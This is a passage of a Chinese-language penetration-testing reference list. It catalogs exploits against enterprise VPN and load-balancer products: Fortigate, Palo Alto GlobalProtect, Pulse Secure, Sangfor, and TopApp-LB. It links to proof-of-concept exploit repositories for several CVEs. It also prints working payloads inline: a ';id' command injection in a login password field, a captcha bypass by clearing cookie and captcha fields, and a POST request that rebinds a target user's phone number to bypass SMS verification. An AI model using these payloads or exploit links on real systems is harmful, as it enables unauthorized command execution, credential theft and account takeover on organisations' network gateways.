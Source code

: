 - **RCE**
    - POC | Payload | exp
        - [天融信TopApp-LB负载均衡命令执行漏洞大量设备可被通杀](https://www.uedbox.com/post/22193/)
            ```
            用户名随意  密码：;id
            ```

---

## VPN

**Fortigate SSL VPN**
- **CVE-2018-13379 Fortigate SSL VPN 密码读取**
    - [milo2012/CVE-2018-13379](https://github.com/milo2012/CVE-2018-13379)
- **CVE-2018-13382 Fortigate SSL VPN 任意密码重置**
    - [milo2012/CVE-2018-13382](https://github.com/milo2012/CVE-2018-13382)

**Palo_Alto SSL VPN**
- **CVE-2019-1579 Palo Alto GlobalProtect 远程代码执行漏洞**
    - 文章
        - [Orange: Attacking SSL VPN - Part 1: PreAuth RCE on Palo Alto GlobalProtect, with Uber as Case Study!](https://blog.orange.tw/2019/07/attacking-ssl-vpn-part-1-preauth-rce-on-palo-alto.html)
        - [Palo Alto GlobalProtect上的PreAuth RCE](https://www.cnblogs.com/backlion/p/11209054.html)

    - POC | Payload | exp
        - [securifera/CVE-2019-1579](https://github.com/securifera/CVE-2019-1579)

**Pulse_Secure SSL VPN**
- **CVE-2019-11510 Pulse Secure SSL VPN 任意文件读取漏洞**
    - 文章
        - [Pulse Secure 任意文件读取（CVE-2019-11510）漏洞](https://www.cnblogs.com/StudyCat/p/11440991.html)

    - POC | Payload | exp
        - [projectzeroindia/CVE-2019-11510](https://github.com/projectzeroindia/CVE-2019-11510)

- **CVE-2019-11539 Pulse Secure SSL VPN 远程代码执行漏洞**
    - [0xDezzy/CVE-2019-11539](https://github.com/0xDezzy/CVE-2019-11539)

**深信服 VPN**
- **口令爆破**
    - POC | Payload | exp
        - https://bbs.sangfor.com.cn/forum.php?mod=viewthread&tid=20633
            ```
            用户登录，若多次尝试登陆失败会要求输入验证码，若输入错误的验证码，会提示“校验码错误或校验码已过期”；修改登录请求的数据包，清空cookie和验证码字段的值即可绕过验证码，此时提示“用户名或密码错误”。
            /por/login_auth.csp?apiversion=1sangfor/cgi-bin/login.cgi?rnd=
            ```

- **短信绕过**
    - POC | Payload | exp
        ```
        POST https://路径/por/changetelnum.csp?apiversion=1

        newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1
        ```
